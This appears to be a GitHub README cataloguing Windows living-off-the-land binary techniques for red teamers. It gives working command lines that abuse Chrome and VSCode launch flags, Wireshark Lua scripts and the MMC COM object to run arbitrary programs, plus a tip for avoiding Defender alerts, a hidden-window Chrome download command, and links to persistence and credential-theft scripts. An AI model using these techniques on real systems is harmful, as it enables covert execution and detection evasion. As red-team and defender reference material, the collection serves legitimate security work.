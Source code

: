 # Binary_Alchemy-LOLBINS
BinaryAlchemy is a project for collecting known and commonly found executables in action for red teamers.

# Execution
### Chrome
````

 & 'C:\Program Files\Google\Chrome\Application\chrome.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"
 & 'C:\Program Files\Google\Chrome\Application\chrome_proxy.exe' --silent-launch --disable-gpu-sandbox --gpu-launcher="calc.exe"

````
### VSCode
````
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
- & "C:\Program Files\Microsoft VS Code\Code.exe" --disable-gpu-sandbox --gpu-launcher="calc.exe"

````

### Wireshark
````
& 'C:\Program Files\Wireshark\tshark.exe' -X lua_script:'<path of lua script>'
& 'C:\Program Files\Wireshark\wireshark.exe' -X lua_script:'<path of lua script>' (Wireshark also opens while executing)

lua file content
-- mention the binary that needs to be executed
 os.execute('C:\\Windows\\notepad.exe')
 ````
### MMC
````
**Required powershell with administrative privilege.** Avoid opening cmd.exe as it gets alerted in Defender.
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application"))
$com.Document.ActiveView.ExecuteShellCommand("C:\windows\system32\notepad.exe",$null,$null,"7")
 ````
 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Download
### Chrome
````

& ‘C:\Program Files\Google\Chrome\Application\chrome_proxy.exe’ — profile-directory=Default — incognito — chrome-frame — user-data-dir=”C:\Temp\Temp-chrome\” — window-size=0,0 — window-position=”0000,1000" <URL>

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Persistence
### Windows Terminal Profile creation

````
 [Windows Terminal Profile Creator](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Persistence/TerminalProfile%20persistence.ps1)

````
### LNK Shorcut
````
[Windows Shortcut Persistence Script](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Persistence/Lnk%20Persistence.ps1)

````
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------
# Credential Access
### Burp suite stores the proxy credentials in plain text under UserConfigPro.json file.
````
[BurpSuite password for Proxy connections](https://github.com/Miragle-Hub/Adversary-tactics-and-techniques-for-Windows/blob/main/Credential%20Access/Burp%20suite%20proxy%20credential)

